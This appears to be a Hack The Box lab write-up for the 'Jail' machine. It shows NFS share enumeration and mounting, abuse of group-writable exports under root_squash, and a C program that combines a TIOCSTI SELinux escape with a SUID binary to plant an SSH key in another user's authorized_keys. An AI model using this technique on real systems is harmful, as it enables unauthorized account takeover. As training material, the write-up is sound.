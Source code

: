 # 20 - NFS


# Shares
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ showmount -e 10.10.10.34
Export list for 10.10.10.34:
/opt          *
/var/nfsshare *
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mkdir -p /mnt/jail/{opt,nfsshare} 
```

# Mount all the shares
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mount -t nfs 10.10.10.34:opt /mnt/jail/opt
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mount -t nfs 10.10.10.34:/var/nfsshare /mnt/jail/nfsshare

```

# All the shared files
```bash
┌─[user@parrot]─[10.10.14.12]─[/mnt/jail]
└──╼ $ find .
.
./opt
./opt/rh
./opt/logreader
./opt/logreader/logreader.sh
./nfsshare
```


# Group permission on nfsshare
![](vx_images/2795591716417.png)



At this point you might see something different or only a group id. That is because group id isn't mapped to any name in /etc/group on your box. What matters is the group id. docker group id is 1000 on my box which is frank on 10.10.10.34. 


# frank
```bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
```

```bash
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash)
```

# [root_squash](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/5/html/deployment_guide/s1-nfs-server-config-exports)
```
Prevents root users connected remotely from having root privileges and assigns them the user ID for the user nfsnobody.
```

That means if we are in any group except for root we should be able to write to nfsshare directory and change permission on any file. Root won't be able to do anything on this share. We can create an executable and enable SUID on it and elevate privileges from  nobody to frank (we can change our group id to match adm on host but let's just ignore it for now. Unfortunately this doesn't work for root. Root is nfsnobody on jail)

There is one problem, SELinux is enabled on this box, it will drop elevated privileges but there is of course a way to escape SELinux


# [SELinux escape](https://seclists.org/oss-sec/2016/q3/606) and authorized_keys

```
#include <unistd.h>
#include <sys/ioctl.h>

int main()
{
    char *cmd = "id\n";
    while(*cmd)
     ioctl(0, TIOCSTI, cmd++);
    execlp("/bin/cp", "cp", "/tmp/authorized_keys","/home/frank/.ssh/authorized_keys", NULL);
}

```

We can place our public key into frank's authorized_keys file with this c code in order to log in through ssh

  
# Compilation
```bash
┌─[user@parrot]─[10.10.14.12]─[/mnt/jail/nfsshare]
└──╼ $ gcc test.c -o test && chmod 4755 test # this will enable SUID
```

# Execute the escape code
```bash
$ ls -l /var/nfsshare/test
-rwsr-xr-x. 1 frank 1002 16656 Jun 22 11:54 /var/nfsshare/test
$ /var/nfsshare/test
$
```

# SSH
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ ssh -l frank 10.10.10.34  -i /home/user/.ssh/id_rsa 
[frank@localhost ~]$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

it takes a while to load.
